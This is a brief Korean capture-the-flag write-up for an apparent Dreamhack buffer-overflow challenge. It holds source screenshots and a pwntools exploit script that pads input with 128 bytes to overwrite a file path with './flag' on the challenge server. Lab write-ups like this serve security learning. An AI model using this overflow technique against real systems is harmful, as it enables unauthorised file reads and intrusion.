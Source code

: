 <img width="272" alt="image" src="https://github.com/user-attachments/assets/5ebc197c-5be3-4a0c-a8d3-6e2c730bdf90">

<br>

### **printf**

<img width="432" alt="image" src="https://github.com/user-attachments/assets/988caa24-2f11-4c48-89b4-6cd1dd74e8cd">

마지막 `printf`에서는 그냥 입력 값을 출력해준다.

<br>

## Exploit

```py
from pwn import *

p = remote('host3.dreamhack.games', 14559)

payload = b'a' * 128
payload += b'./flag'
# payload += b'/home/bof/flag' # 이것도 가능

p.sendlineafter(b'meow? ', payload)
p.interactive()
```